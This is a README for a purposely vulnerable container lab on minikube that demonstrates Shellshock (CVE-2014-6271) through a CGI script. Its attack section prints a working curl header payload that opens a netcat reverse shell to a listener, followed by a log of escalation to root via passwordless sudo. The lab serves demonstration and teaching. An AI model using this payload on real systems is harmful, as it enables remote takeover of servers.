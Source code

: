 # Vulnerable Container Image :smiling_imp:

This is an example of an attack caused by a vulnerable container image.

## Requirements
- CPU Architecture
  - amd64
  - x86_64
  - arm64 (:warning: use the command marked `for arm64`)
- Tools
  - Docker
  - kubectl
  - minikube

## Vulnerability Description

- Bash with [CVE-2014-6271](https://security-tracker.debian.org/tracker/CVE-2014-6271)
- Unnecessary packages such as netcat and sudo
- Root privileges can be obtained without password
- a CGI script

## Setup

1. (Only for `arm64`) Set up for using `amd64` images

```bash
# create a new instance for using `amd64` images
> docker buildx create --use

# enable qemu-user-static for using `amd64` images
> minikube ssh "sudo apt-get update && sudo apt-get -y install qemu-user-static"
> minikube stop && minikube start
```

2. Build the vulnerable container image

```bash
> docker buildx  build -t vulnerable-container-image .

# for arm64
> docker buildx build -t vulnerable-container-image . --platform=linux/amd64 --load
```

3. Build the web container image

```bash
> docker buildx build -t web-container-image .

# for arm64
> docker buildx build -t web-container-image . --platform=linux/amd64 --load
```

4. Load the local images to minikube

```bash
> minikube image load vulnerable-container-image:latest
> minikube image load web-container-image:latest
```

5. Apply k8s manifests

```bash
> kubectl apply -f manifest/pod.yaml
> kubectl apply -f manifest/service.yaml
```

6. Assign the external IP to the load balancer

```bash
> minikube tunnel
```


## Attack Scenario

1. Listen to the port 5050 on the host machine

   - Terminal 1

       ```bash
       > ncat -lvnp 5050
       ```
2. Execute the command to establish a connection to the host machine from the vulnerable container
       
   - Terminal 2

        ```bash
        > curl -H "User-Agent: () { :; }; /bin/nc -e /bin/bash ${TERMINAL_IP} 5050" http://${EXTERNAL_IP}:8080/cgi-bin/vulnerable-cgi
        ```

   - Log of Terminal 1

        ```bash
        
        Ncat: Version 7.95 ( https://nmap.org/ncat )
        Ncat: Listening on [::]:5050
        Ncat: Listening on 0.0.0.0:5050
        Ncat: Connection from xxx.xxx.xxx.xxx.
        whoami # input1
        www-data # output1
        sudo su # input2
        whoami # input3
        root # output3
        ```